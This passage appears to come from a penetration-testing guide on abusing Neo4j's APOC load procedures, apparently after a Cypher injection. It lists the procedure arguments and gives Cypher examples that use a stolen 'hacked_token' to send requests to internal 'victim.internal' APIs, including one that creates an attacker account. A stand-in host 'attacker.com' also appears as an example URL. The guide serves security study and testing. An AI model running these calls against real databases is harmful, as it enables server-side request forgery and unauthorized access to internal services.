 Note: in Neo4j 5, this procedure was moved to APOC extended

**Arguments:**

|Name|Type|Example|Is Required|
|---|---|---|---|
|urlOrKeyorBinary|Any|"http://attacker.com/json"|Yes|
|headers|Map or null|{ method: "POST", `Authorization`:"BEARER " + hacked_token}|Yes|
|payload|String or null|Data|Yes|
|config|Map or null|{header: FALSE}|No|

- **urlOrKeyORBinary** – we will usually want a URL, but it also possible to specify the binary data of a csv
- **headers** – except for http headers, we can also use this field to specify the method.
    
    Important! If want a get request, we MUST NOT specify a method. `method`: “GET” will not work, due to a bug in the implementation.
    
- **payload** – If we want to send a GET request, this must be null
- **config** – We can use config for example to tell APOC the data is compressed. For example:
    
    {compression: ‘DEFLTA'}
    
    We can also use config to change the delimiter, the quote char, escape char, array separator, skip lines, or whether the CSV has a header line or not
    

**Return values:**

|Name|Description|Type|Example|
|---|---|---|---|
|lineNo|The line number of the value|Integer|0|
|list|List of values in a row|List⟨string⟩|["a","b","c"]|
|map|If headers are present, map will map the header with the value|Map|{"A: "a"}|

**Examples:**

```sql
CALL apoc.load.jsonParams("http://victim.internal/api/user",{ method: "POST", `Authorization`:"BEARER " + hacked_token},'{"name":"attacker", "password":"rockyou1"}',"") yield value as value 

CALL apoc.load.csvParams("http://victim.internal/api/me",{ `Authorization`:"BEARER " + hacked_token}, null,{header:FALSE}) yield list 
```

## Extracting data from Neo4j

There are many built-in and APOC functions that can help us get information about the database.

### Get labels

Using the built-in method db.labels, it is possible to list all existing labels.
